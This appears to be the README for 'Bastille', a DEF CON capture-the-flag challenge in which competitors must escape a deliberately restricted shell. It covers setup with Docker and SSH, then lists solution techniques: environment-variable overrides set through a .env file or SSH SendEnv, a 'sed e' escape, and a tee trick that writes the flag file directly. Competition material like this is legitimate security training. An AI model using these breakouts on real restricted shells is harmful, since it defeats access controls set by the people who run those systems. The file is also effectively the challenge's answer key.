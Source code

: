 # Bastille

Go directly to jail, do not pass go, do not collect $200!

Bastille is a retro style shell escape vulnerability. The user is dropped into a restricted shell and must escape to get access to features that they wouldnt normally have.
For DEF CON, Bastille is run behind an SSH server with a known password. The competitors must SSH onto the server and then escape the shell to plant the flag.

> Remember to give "release.zip" to the competitors 


## Running
To run a simple, local-copy of bastille, create a jail directory with the script provides and then run the jail

    bash build_jail.sh
    JAIL_PATH=./bin ./bastile

To run a full bastille setup in docker with ssh, simple build and run the provided dockerfile

    docker build -t bastille .
    docker run --rm -p 127.0.0.1:2222:22 -it bastille
    ssh -p 2222 user@127.0.0.1

## Escape Techniques

1. Env override: If a binary is set in an environment variable, then it can be executed
    1. Set Env with `.env` file. Respawn the shell and then execute the variable
    ```
    [bastille] cwd > tee .env
    VAR=/bin/bash
    [bastille] cwd > $SHELL # Call bastille again to reload the env
    [bastille] cwd > $VAR
    ```

    2. Set the env with SSH
    ```
    LANG=/bin/bash ssh -o SendEnv=LANG user@target '$LANG -i'
    ```

2. GTFO Bins with sed/awk
  ```
  [bastille] cwd > sed e
  ```

3. Write to the flag without escaping
  ```
  [bastille] cwd > tee a a a a a a a a a a a a a a a a a a a a /flags/flag.txt
  <YOUR FLAG HERE> 
  ```